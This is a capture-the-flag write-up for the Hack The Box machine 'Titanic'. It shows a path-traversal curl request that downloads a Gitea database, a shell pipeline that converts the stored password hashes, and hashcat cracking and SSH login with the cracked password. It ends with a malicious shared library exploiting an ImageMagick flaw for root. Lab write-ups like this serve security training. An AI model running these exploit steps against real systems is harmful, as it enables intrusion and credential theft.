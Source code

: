 # Titanic - Hack The Box Writeup

![Titanic HTB](https://labs.hackthebox.com/storage/avatars/eb5942ec56dd9b6feb06dcf8af8aefc6.png)




---

## Introduction

Titanic is a Hack The Box machine rated as Easy/Medium difficulty. This writeup covers the steps I took to enumerate, exploit, and gain root access on the machine. The challenge focuses on web vulnerabilities, SSH access, and privilege escalation.

---

## Enumeration

### Step 1: Nmap Scan 

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-18 03:13 CST
Nmap scan report for 10.129.193.215
Host is up (0.24s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.52
Service Info: Host: titanic.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
This scan revealed several open ports, but the most relevant was port 80 running a web service, which indicated that a web application was available to explore. SSH might be used for later if there are credentials to access.

### Step 2: Web Enumeration

I opened the website on http://titanic.htb and interacted with the available pages. On the homepage, I found a "Book Your Trip" form. This form allowed users to input various details for booking a trip, which immediately caught my attention as a potential area for exploitation, particularly for Local File Inclusion (LFI) vulnerabilities. I tested for **LFI** by manipulating the form input fields using path traversal techniques in the “Book Your Trip” form. 
The idea behind this was to see if I could access sensitive files like the **passwd** file, which might reveal usernames on the system. I also tested for SQL injections and JSON in burp suite but had no luck.

### ffuf scan
```
ffuf -w /wordlists/subdomains-top1million-110000.txt -u http://titanic.htb/ -H  "Host:FUZZ.titanic.htb" -fc 301
```
I added this to my /etc/hosts file → dev.titanic.htb and visited the webpage.

The page had two repositories : developer / flask-app  and developer / docker-config. Below are a couple screen shots: 

![Screenshot 2025-02-19 124608](https://github.com/user-attachments/assets/f6616eea-f385-4b98-829a-f3296de66b68)
![Screenshot 2025-02-19 124517](https://github.com/user-attachments/assets/f1f42b8b-c10c-4138-b097-cafe23b6f74d)

### Step 3: LFI 
To exploit the LFI vulnerability, I modified the form's input to include path traversal sequences. This allowed me to access important files on the server, including the Gitea database (gitea.db) located at /data/gitea/gitea.db. I downloaded this file to further examine the user credentials:
```
curl --path-as-is http://titanic.htb/download?ticket=../../../home/developer/gitea/data/gitea/gitea.db
```
### Step 4: Extracting the Gitea Database
Once I had the gitea.db file, I opened it with an SQLite client to explore the user credentials. I used the following command to retrieve the user information:
```
sqlite3 gitea.db "SELECT * FROM user;"
```
The result returned 2 users, including the administrator and developer accounts. Both users had PBKDF2-HMAC-SHA256 hashes for their passwords, which I would need to crack to progress further.
```
sqlite3 gitea.db "SELECT * FROM user;"
1|administrator|administrator||root@titanic.htb|0|enabled|cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136|pbkdf2$50000$50|0|0|0||0|||70a5bd0c1a5d23caa49030172cdcabdc|2d149e5fbd1b20cf31db3e3c6a28fc9b|en-US||1722595379|1722597477|1722597477|0|-1|1|1|0|0|0|1|0|2e1e70639ac6b0eecbdab4a3d19e0f44|root@titanic.htb|0|0|0|0|0|0|0|0|0||gitea-auto|0
2|developer|developer||developer@titanic.htb|0|enabled|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56|pbkdf2$50000$50|0|0|0||0|||0ce6f07fc9b557bc070fa7bef76a0d15|8bf3e3452b78544f8bee9400d6936d34|en-US||1722595646|1722603397|1722603397|0|-1|1|0|0|0|0|1|0|e2d95b7e207e432f62f3508be406c11b|developer@titanic.htb|0|0|0|0|2|0|0|0|0||gitea-auto|0
┌─[sg-dedivip-1]─[10.10.14.44]─[lotus17@htb-wi16vb5gka]─[~]
└──╼ [★]$ sqlite3 gitea.db "select passwd,salt,name from user" | while read data; do digest=$(echo "$data" | cut -d'|' -f1 | xxd -r -p | base64); salt=$(echo "$data" | cut -d'|' -f2 | xxd -r -p | base64); name=$(echo $data | cut -d'|' -f 3); echo "${name}:sha256:50000:${salt}:${digest}"; done | tee gitea.hashes
administrator:sha256:50000:LRSeX70bIM8x2z48aij8mw==:y6IMz5J9OtBWe2gWFzLT+8oJjOiGu8kjtAYqOWDUWcCNLfwGOyQGrJIHyYDEfF0BcTY=
developer:sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=
```
### Step 5: Cracking the Password Hashes
I saved the extracted hashes in a file named gitea.hashes and proceeded to crack them using hashcat. Since the hashes were in PBKDF2-HMAC-SHA256 format, I used the rockyou.txt wordlist:
```
hashcat -m 10900 gitea.hashes /usr/share/wordlists/rockyou.txt --force
```
While the cracking process was slow, I eventually managed to crack the password for the `developer` account, which was `25282528`.

### Step 6: Accessing Gitea as Developer
With the `developer` password in hand, I logged into ssh using the credentials i found. I used the following credentials:

- **Username:** developer
- **Password:** 25282528

This allowed me to access  find the user.txt, but I still needed to escalate my privileges to root.
```
developer@titanic:~$ ls
gitea  mysql  user.txt
developer@titanic:~$ cat user.txt
xxxxxxxxxxxxxxxxxxxxxxxxxxxx
```
### Step 7: Escalating Privileges / Root
I needed to check if there were any writeable directories that the developer user could access to gain access to files.  
The opt directories are usually a good place to look. < opt/apt/static/assets/images > /opt/app/tickets I took note of: 
```
developer@titanic:~$ find / -writable -type d 2>/dev/null


/sys/fs/cgroup/user.slice/user-1000.slice/user@1000.service
/sys/fs/cgroup/user.slice/user-1000.slice/user@1000.service/app.slice
/sys/fs/cgroup/user.slice/user-1000.slice/user@1000.service/app.slice/dbus.socket
/sys/fs/cgroup/user.slice/user-1000.slice/user@1000.service/init.scope
/opt/app/static/assets/images
/opt/app/tickets
/home/developer
/home/developer/.ssh
/home/developer/gitea
/home/developer/gitea/data
/home/developer/gitea/data/git
/home/developer/gitea/data/git/.ssh
/home/developer/gitea/data/git/lfs
```

Inside the /opt/scripts directory I came across something interesting. There was a ‘identify_images.sh’ script here that i wasnt sure about so I input my findings to chatgpt.
```
developer@titanic:~$ cd /opt
developer@titanic:/opt$ ls
app  containerd  scripts
developer@titanic:/opt$ cd scripts/
developer@titanic:/opt/scripts$ ls
identify_images.sh
developer@titanic:/opt/scripts$ cat identify_images.sh 
cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log
```

![Screenshot 2025-02-19 122438](https://github.com/user-attachments/assets/e6c83bf6-d38f-435e-97f9-1bf760f84f81)

I then searched to see if there was a version of /usr/bin/magick i could follow:
```
developer@titanic:/opt/scripts$ /usr/bin/magick --version
Version: ImageMagick 7.1.1-35 Q16-HDRI x86_64 1bfce2a62:20240713 https://imagemagick.org
Copyright: (C) 1999 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5) 
Delegates (built-in): bzlib djvu fontconfig freetype heic jbig jng jp2 jpeg lcms lqr lzma openexr png raqm tiff webp x xml zlib
Compiler: gcc (9.4)
```
`Version: 7.1.1`

There was also a great github page explaing the Arbitrary Code Execution in `AppImage` version `ImageMagick`. I followed this:
-> https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8

If I go into the directory that i found earlier  →  `opt/apt/static/assets/images`    and instead of using  `system("id");`  as in the github page, I modified the code to copy the root.txt into the currect directory using a simple cmd edit:
```
developer@titanic:/opt/app/static/assets/images$ gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("cp /root/root.txt root.txt; chmod 754 root.txt");
    exit(0);
}
EOF
```
After executing and waiting a couple minutes, you can see that there is the root.txt file in the directory:
```
developer@titanic:/opt/app/static/assets/images$ ls -la
total 1288
drwxrwx--- 2 root developer   4096 Feb 19 02:34 .
drwxr-x--- 3 root developer   4096 Feb  7 10:37 ..
-rw-r----- 1 root developer 291864 Feb  3 17:13 entertainment.jpg
-rw-r----- 1 root developer 280854 Feb  3 17:13 exquisite-dining.jpg
-rw-r----- 1 root developer 209762 Feb  3 17:13 favicon.ico
-rw-r----- 1 root developer 232842 Feb  3 17:13 home.jpg
-rw-r----- 1 root developer 280817 Feb  3 17:13 luxury-cabins.jpg
-rw-r----- 1 root developer      0 Feb 19 02:34 metadata.log
-rwxr-xr-- 1 root root          33 Feb 19 02:34 root.txt
developer@titanic:/opt/app/static/assets/images$ cat root.txt
xxxxxxxxxxxxxxxxxxxxxxxxxx
```

### Conclusion:
Titanic was a great box to test my skills on. It also showed me how valuable it was using online resources.
I hope this writeup was easy to follow! Thanks for reading! Happy Hacking :)!

